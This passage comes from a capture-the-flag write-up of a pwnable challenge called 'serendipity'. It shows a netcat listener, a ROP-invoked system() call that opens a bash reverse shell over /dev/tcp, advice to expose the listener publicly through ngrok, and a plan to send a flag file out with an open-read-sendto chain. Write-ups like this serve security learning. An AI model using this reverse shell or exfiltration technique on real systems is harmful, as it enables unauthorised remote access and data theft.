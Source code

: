 
### Get Shell ?

We have successfully to leak and how we can get shell through UDP connection?

Hmm, i just use this trick to perform reverse shell:
* Listen on a port 1337:
```c
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                                           ✔  w1n_gl0ry@phis1Ng ─╮
╰─ nc -lnvp 1337                                                                                                                                                                     ─╯
Listening on 0.0.0.0 1337
```

* We use system function in my rop to execute command:

```c
system('bash -c \'exec bash -i &>/dev/tcp/0/1337 <&1\'')
```

To get shell on the server, just use `ngrok tcp 1337`. This command will generate a public URL, and any traffic to that URL will be forwarded to your local machine's port 1337.

Result:
```c
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                                           ✔  w1n_gl0ry@phis1Ng ─╮
╰─ nc -lnvp 1337                                                                                                                                                                     ─╯
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 34014
w1n_gl0ry@phis1Ng:~/CTF/Pwnable/2023/wc2023/serendipity$ 
w1n_gl0ry@phis1Ng:~/CTF/Pwnable/2023/wc2023/serendipity$ id
id
uid=1000(w1n_gl0ry) gid=1000(w1n_gl0ry) groups=1000(w1n_gl0ry),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),118(lpadmin)
```

We have successfully to use reverse shell to RCE. Unfornatunely, in the server, author remind me that the docker has block the network outside of that and we don't manage to get shell on that -.-


### final phase

During the contest, i think of another approach, simply perform the open-read-write to get flag, the author has also hint the location of flag `/home/user/flag`. But can we get flag with write to stdout ?

No! We have to think another approach to send the flag over the udp connection and simly i perform a open-read-sendto chain to get_flag through local to server!

So, sendto syscall need which arguments ?
```c
ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *dest_addr, socklen_t addrlen);
```
